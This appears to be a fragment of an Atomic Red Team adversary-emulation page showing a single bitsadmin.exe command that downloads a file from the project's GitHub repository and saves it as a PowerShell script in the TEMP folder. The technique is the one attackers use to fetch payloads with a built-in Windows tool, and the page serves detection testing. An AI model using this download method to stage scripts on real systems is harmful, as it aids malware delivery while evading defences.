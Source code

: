 ## bitsadmin.exe

    bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Execution/Bitsadmin.md $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
